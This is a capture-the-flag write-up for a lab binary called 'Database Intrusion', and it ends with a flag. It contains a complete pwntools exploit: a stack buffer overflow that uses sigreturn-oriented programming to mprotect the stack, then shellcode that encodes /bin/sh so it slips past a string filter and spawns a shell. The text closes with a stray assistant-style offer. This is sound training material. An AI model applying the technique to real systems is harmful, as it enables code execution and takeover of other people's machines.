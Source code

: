 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Static Analysis

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
exe = context.binary = ELF('./main')

def start(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

gdbscript = 'continue\n'

io = start()

# Leak buf and vuln addresses
io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
buf_addr = int(leak_vals[0], 16)
vuln_addr = int(leak_vals[1].strip()[:-1], 16)

log.success(f"buf @ {hex(buf_addr)}")
log.success(f"vuln @ {hex(vuln_addr)}")

# Calculate PIE base
exe.address = vuln_addr - exe.sym['vuln']
log.success(f"PIE base @ {hex(exe.address)}")

# Set up ROP and gadgets
rop = ROP(exe)
syscall_gadget = rop.find_gadget(['syscall'])[0]

# Page-align stack address
page_size = 0x1000
aligned_stack = buf_addr & ~(page_size - 1)

# Create SigreturnFrame for mprotect
frame = SigreturnFrame()
frame.rax = 10                 # mprotect
frame.rdi = aligned_stack      # addr
frame.rsi = page_size          # len
frame.rdx = 7                  # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rsp = buf_addr           # pivot back to shellcode
frame.rip = syscall_gadget     # syscall; ret

# Custom shellcode (no forbidden strings)
shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  # "//bin/sh"
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 59                  # execve syscall
    syscall
''')

# Build payload
offset = 16
payload = p64(buf_addr + 8)         # new RIP (skip over dummy value)
payload += shellcode
payload += b'\x90' * (72 - len(payload))  # NOP padding
payload += p64(syscall_gadget)      # trigger sigreturn
payload += bytes(frame)             # actual frame

# Send payload
io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)
io.interactive()
```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```

---

Let me know if you'd like a version with visuals (`img/`) or the Markdown exported as a `.md` file.
